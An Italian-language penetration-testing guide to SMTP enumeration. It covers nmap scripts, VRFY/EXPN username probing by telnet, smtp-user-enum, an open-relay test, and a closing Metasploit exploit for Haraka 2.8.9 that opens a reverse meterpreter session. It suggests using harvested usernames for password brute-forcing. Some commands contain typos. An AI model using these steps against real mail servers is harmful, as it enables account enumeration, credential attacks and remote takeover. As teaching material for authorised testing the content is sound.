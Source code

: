 # SMTP Enumeration

SMTP (Simple Mail Transfer Protocol) è il protocollo usato per inviare email. È spesso attivo su server pubblici per consentire la comunicazione tra mail server. Le porte comuni sono:

- `25` (standard)
- `465` (SMTP con SSL)
- `587` (SMTP con TLS)

## Perché è utile nel penetration testing?

Anche se non pensi di voler "mandare email", un server SMTP può fornirti:

- Nomi validi di utenti o account
- Informazioni sul dominio e nome host
- Comportamenti del sistema rispetto a nomi inesistenti
- In alcuni casi, accesso a servizi interni (relay o spoofing)

## Fase 1 – Scansione iniziale

Verifica la presenza di un servizio SMTP:
#### Nmap
`nmap -p 25,465,587 -sV <IP>`

Con script dedicati:

`nmap -p 25 --script smtp-commands,smtp-enum-users,smtp-open-relay <IP>`

Questi script cercano di:

- Capire i comandi supportati dal server (`EHLO`, `VRFY`, `EXPN`)
- Verificare se è aperto a relay (invio di email da chiunque)
- Enumerare utenti esistenti

#### Metasploit
`use ausiliary/scanner/smtp/smtp_version`

## Fase 2 – Connessione manuale via telnet o netcat

Puoi collegarti a mano per dialogare con il server:

`elnet <IP> 25`

Eseguendo:

`HELO test.com` <br>
`VRFY administrator` <br>
`VRFY root` <br>
`EXPN users`

Significato:

- `HELO`: introduce la connessione
- `VRFY`: chiede se un utente esiste
- `EXPN`: espande una mailing list

Esempio di risposta:
```
250 User exists
550 User unknown
```

Con questi messaggi puoi capire se certi nomi utente sono validi. Questo è utile per attacchi di brute-force futuri.

## Fase 3 – User Enumeration automatizzata

### Metasploit

`use auxiliary/scanner/smtp/smtp_enum` <br>
`set RHOSTS <IP>` <br>
`set USER_FILE <path>` <br>
`run` <br>

### smtp-user-enum

Strumento molto veloce:

`smtp-user-enum -M VRFY -U users.txt -t <IP>`

Modalità supportate:

- `VRFY`
- `EXPN`
- `RCPT` (simula invio mail per vedere se accetta destinatario)

>Non tutti i server rispondono a questi comandi. I moderni SMTP spesso li disabilitano per evitare questa tecnica.

Dopo aver ottenuto degli username, possiamo inserirli dentro una lista .txt per poter performare un bruteforce delle passwords.

## Fase 4 – Relay aperto (open relay)

Un open relay consente di inviare email attraverso il server senza autenticazione. È un grosso problema di sicurezza: può essere usato per spam o phishing.

Verifica con:

`telnet <IP> 25` <br>
`MAIL FROM:tuo@email.com` <br>
`RCPT TO:vittima@altrodominio.com` <br>
`DATA` <br>
`<Testo dell’email>` <br>

Se l’email viene accettata, il server è un relay aperto. Questi casi sono rari ma molto gravi.

## Fase 5 – Raccolta informazioni

Durante l’handshake SMTP, il server potrebbe fornire:

- Nome host
- Versione software
- Nome dominio
- Estensioni supportate (`STARTTLS`, `AUTH`, `PIPELINING`)

Esempio di output:
```
220 mail.example.com ESMTP Postfix (Ubuntu)
250-mail.example.com
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-AUTH LOGIN PLAIN
```

Il banner ti dice già molto: dominio, tipo di server (`Postfix`, `Exim`, `Sendmail`), e funzionalità disponibili.

---

## Altri Exploits
Se il servizio SMTP in esecuzione sul targhet ha una versione `Haraka v2.8.9` possiamo usare questo exploit
```bash
use exploit/linux/smtp/haraka
set rhosts <IP>
set LHOST <IP>
set LPORT 8080
set SRVPORT 9898
set email_to <destinatario>
set payload linux/x64/meterpeter_reverse_http
run
```
ottenendo una sessione meterpeter sul target. 

---
